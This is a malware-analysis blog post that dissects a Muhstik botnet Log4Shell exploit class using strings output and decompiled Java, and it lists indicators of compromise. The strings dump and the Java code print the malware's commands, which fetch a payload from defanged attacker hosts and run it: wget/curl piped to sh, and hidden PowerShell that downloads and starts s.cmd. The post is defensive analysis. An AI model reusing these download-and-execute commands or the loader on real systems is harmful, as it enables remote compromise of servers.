 ```yaml
---
layout: post
title: "Analyzing a Log4jShell Exploit from Muhstik"
date: 2021-12-12
categories: log4jshell malware java powershell muhstik
permalink: /analyzing-log4jshell-muhstik/
---
```


In this post I set out to analyze a simple chunk of Log4jShell exploit code to see how it works.

## Finding the Exploit

I wasn't running a honeypot or anything, I just figured I could rustle around VirusTotal and find one using this search:

`tag:java-bytecode positives:1+`

Out of the files I saw, I ended up settling on this simple one:

[https://www.virustotal.com/gui/file/2b5f04d15e459132a5935260746788db39b469ea46859c4a5bb8625f8a80bd41](https://www.virustotal.com/gui/file/2b5f04d15e459132a5935260746788db39b469ea46859c4a5bb8625f8a80bd41)

## Triaging for Indicators

If you're working an incident it helps to have some indicators you can feed over to the rest of your team to identify behaviors or other data. One of the easiest ways to find low-hanging indicators in malware is using the `strings` command.

```
remnux@remnux:~/cases/muhstik$ strings Exploit.class 

<init>
Code
LineNumberTable
<clinit>
StackMapTable
SourceFile
Exploit.java
java/lang/String
	/bin/bash
S(wget -qO - hxxp://18.228.7[.]109/.log/log || curl hxxp://18.228.7[.]109/.log/log) | sh
os.name
powershell
hidden
(new-object System.Net.WebClient).Downloadfile('hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd', 's.cmd');start-process s.cmd
java/lang/Exception
com/knal/muhstik/Exploit
java/lang/Object
[Ljava/lang/String;
java/lang/System
getProperty
&(Ljava/lang/String;)Ljava/lang/String;
toLowerCase
()Ljava/lang/String;
startsWith
(Ljava/lang/String;)Z
java/lang/Runtime
getRuntime
()Ljava/lang/Runtime;
exec
(([Ljava/lang/String;)Ljava/lang/Process;
java/lang/Process
waitFor
Ljava/io/PrintStream;
toString
java/io/PrintStream
println
(Ljava/lang/String;)V
```

Keep in mind that `strings` doesn't grab Unicode characters by default, so you'll need to run a second pass using `strings -eL`. In this case, I found no additional strings.

Useful indicators from this threat include:

- `hxxp://18.228.7[.]109/.log/log`
- `hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd`
- `com/knal/muhstik/Exploit`

The last string proves useful to find intelligence overlaps. The Muhstik botnet has used the strings `knal` and `muhstik` in parts of its exploitation [in the past](https://sysdig.com/blog/muhstik-malware-botnet-analysis/).

## Reversing to Java Source

Reversing the Java bytecode in a class file back to source is relatively easy, and I recommend using [JD-GUI](http://java-decompiler.github.io/) for the job. Pretty much all of the work is done for you (assuming the code isn't obfuscated) and you'll get a clean view of the code.

![JD-GUI Code Decompiler](/assets/images/analyzing-log4jshell-muhstik/muhstik-re-1.png)

This code is a simple example of cross-platform exploit code.

```java
String[] arrayOfString = { "/bin/bash", "-c", "(wget -qO - hxxp://18.228.7[.]109/.log/log || curl hxxp://18.228.7[.]109/.log/log) | sh" };

if (System.getProperty("os.name").toLowerCase().startsWith("win"))
	arrayOfString = new String[] { "powershell", "-w", "hidden", "-c", "(new-object System.Net.WebClient).Downloadfile('hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd', 's.cmd');start-process s.cmd" }; 

Runtime runtime = Runtime.getRuntime();
Process process = runtime.exec(arrayOfString);
process.waitFor();
```

The code uses [`System.getProperty()`](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html) to determine if the server is running Windows or not. If it is, the code executes PowerShell with commands to [download](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0) `s.cmd` and then [execute](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7.2) it. If the server isn't running Windows, the code executes `curl` and/or `wget` commands depending on what is available on the exploited system.

The actual shell commands are kicked off by [`Runtime.exec`](https://docs.oracle.com/javase/7/docs/api/java/lang/Runtime.html) and then the code waits for the commands to complete.
